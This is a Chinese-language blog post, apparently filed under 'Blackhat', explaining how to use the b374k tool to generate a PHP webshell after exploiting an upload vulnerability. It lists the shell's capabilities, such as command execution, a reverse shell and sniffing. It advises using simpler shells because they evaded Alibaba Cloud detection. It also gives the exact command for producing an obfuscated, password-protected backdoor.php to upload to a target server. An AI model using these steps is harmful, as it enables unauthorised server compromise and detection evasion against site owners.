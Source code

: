 ```yaml
---
title: PHP后门生成工具b374k的使用方法
name: php-b374k
date: 2016-5-20
tags: [php,后门生成,b374k]
categories: [Blackhat]
---
```


* 目录
{:toc}

尽管现在互联网技术日新月异，但php类型的网站仍然占比较多（php建站工具丰富），与之而来的是php站点各种漏洞，本篇文章将会描述当你获取一个上传漏洞时，应该选择哪种**php webshell**进行控制，这里介绍**b374k**的php后门生成工具。

其实在kali2.0的"**/usr/share/webshells/php**"系统目录中也有几个可用的shell，另外你也可以使用**weevely**。

## 2. 特性

* 文件管理（查看、编辑、删除、重命名、上传、下载、归档等等）
* 搜索文件、目录、文件内容（支持正则表达式）
* 运行系统命令
* 脚本运行（perl、php、python、ruby等等）
* 反向连接的shell（可以使用metasploit监听）
* 简单的数据包嗅探
* 简单的数据库连接与解释器
* 任务进程列表
* 邮件服务（可发送归档附件）

由上面可知，**b374k**的确很强大，提供了丰富的功能、友好的界面操作方式。但优点越多的同时缺点暴露的就越多，**b374k**由于涉及很多系统函数，使用面广，所以很容易被站点所在的系统发现并查杀。所以往往越简单的shell越不容易被发现，例如开头所说的kali自带的几个webshell。

我曾经在阿里云服务器中测试过，当上传**b374k**的后门shell时，阿里云系统几秒钟就发现并进行的告警，当我使用kali2.0自带的**qsd-php-backdoor.php**时却没有任何告警信息，从这点可以看出越简单越好，其实仅仅提供一个简单的shell就可以做很多事情。

## 3. 使用

**b374k**作为生成shell后门的工具，提供了两种生成方式，一种**给予界面**的方式，一种是**命令行**的方式。给予界面的需要web服务器的支持，命令方式的需要php解释器的支持，下面是这两种方式的使用方法。

### 3.1 给予界面的

将克隆的**b374k**的目录放置到目标服务器中，通过域名访问界面生成地址，如：[//vinny.cc/b374k](//vinny.cc/b374k)，配置好相应参数，点击run按钮即可进入webshell控制台，如下：

![b374k界面生成](//vinnycc.oss-cn-shanghai.aliyuncs.com/20190320/b374k.png)

其实这种生成方式并不靠谱，需要把整个**b374k**的程序放到目标机器上，很容易被查杀和利用，并不推荐使用这种方式进行webshell的使用。

![b374k web shell](//vinnycc.oss-cn-shanghai.aliyuncs.com/20190320/b374kshell.png)

### 3.2 给予命令行生成的

```shell
$ php -f index.php
b374k shell packer 0.4

options :
        -o filename                             保存的后门文件
        -p password                             访问的密码
        -t theme                                使用哪种主题
        -m modules                              使用的模块
        -s                                      去除注释和空白区域
        -b                                      是否用base64编码
        -z [no|gzdeflate|gzencode|gzcompress]   压缩方式
        -c [0-9]                                压缩级别
        -l                                      列出可用的模块
        -k                                      列出可用的主题

# -o 生成backdoor.php文件后门
# -p 后门的访问密码是123321
# -s 去除注释和空白区域
# -b 启用base64压缩
# -z 使用gzcompress的压缩方式
# -c 压缩级别为最高的9
php -f index.php -- -o backdoor.php -p 123321 -s -b -z gzcompress -c 9
```

生成好之后将**backdoor.php**上传至目标服务器中，使用密码**123321**进行访问即可看见**b374k**的界面操作。
